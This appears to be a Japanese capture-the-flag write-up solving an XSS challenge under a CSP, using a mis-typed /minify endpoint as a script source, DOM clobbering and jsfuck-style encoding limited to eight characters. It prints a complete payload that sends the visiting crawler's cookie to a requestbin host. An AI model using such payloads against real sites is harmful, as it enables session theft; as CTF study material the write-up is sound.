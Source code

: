`/:codeId`のページに自明なXSS脆弱性がありますが、CSPが設定されているためインラインあるいは外部のJavaScriptを実行することができません。しかし、`/minify`エンドポイントにおいて`content-type`ヘッダが適切に設定されていないため、これをJavaScriptとして読み込ませることができます。つまり、`><+-=[]r`の8文字でXSSのペイロードを書かなければなりません。

幸い、今回は任意のHTMLを挿入できるのに加えて文字`r`も使えるので、DOM Clobberingを使ってDOMにアクセスできます。ペイロードの基本的なアイデアは以下の通りです。

```js
element['ownerDocument']['defaultView']['location']='https://requestbin.example.com/?'+element['ownerDocument']['cookie']
```

[jsfuck](https://github.com/aemkei/jsfuck)を参考に、文字列`alt`を以下のように作ることができます。

```js
// 'alt' === 'NaN'[1] + 'false'[2] + 'true'[0]
console.log(
    [+[][[]]+[]][+[]][++[[]][+[]]]+[[[[]>[]][+[]]]+[]][+[]][++[++[[]][+[]]][+[]]]+[[[]>=[]]+[]][+[]][+[]]
) // 'alt'
```

XSSで挿入した`img`要素の`alt`属性を取得することで、任意の文字列を得ることができます。

```html
<!-- payloadの例 -->
<img alt="ownerDocument" id="rr">
<img alt="defaultView" id="rrr">
<img alt="location" id="rrrr">
<img alt="cookie" id="rrrrr">
<a href="https://requestbin.example.com/?" id="rrrrrr"></a>
<script src="/minify?code=rr%5Brr%5Br%3D%5B%2B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%2B%5B%5B%5D%5D%5B%2B%5B%5D%5D%5D%2B%5B%5B%5B%5B%5D%3E%5B%5D%5D%5B%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%2B%5B%2B%2B%5B%5B%5D%5D%5B%2B%5B%5D%5D%5D%5B%2B%5B%5D%5D%5D%2B%5B%5B%5B%5D%3E%3D%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%5D%5D%5Brrr%5Br%5D%5D%5Brrrr%5Br%5D%5D%3Drrrrrr%2Brr%5Brr%5Br%5D%5D%5Brrrrr%5Br%5D%5D"></script>
```

JS部分（コメント付き）：

```js
rr[
    // r === 'alt'
    // 'ownerDocument'
    rr[r=[+[][[]]+[]][+[]][++[[]][+[]]]+[[[[]>[]][+[]]]+[]][+[]][++[++[[]][+[]]][+[]]]+[[[]>=[]]+[]][+[]][+[]]]
][
    // 'defaultView'
    rrr[r]
][
    // 'location'
    rrrr[r]
] = rrrrrr /* rrrrrr.toString() === rrrrrr.href */ + rr[
    // 'ownerDocument'
    rr[r]
][
    // 'cookie'
    rrrrr[r]
]
```

`/submit`にペイロードを送信し、XSSを仕込んだページを報告すると、対象ページにアクセスしたクローラーが外部のサーバにフラグを送信します。
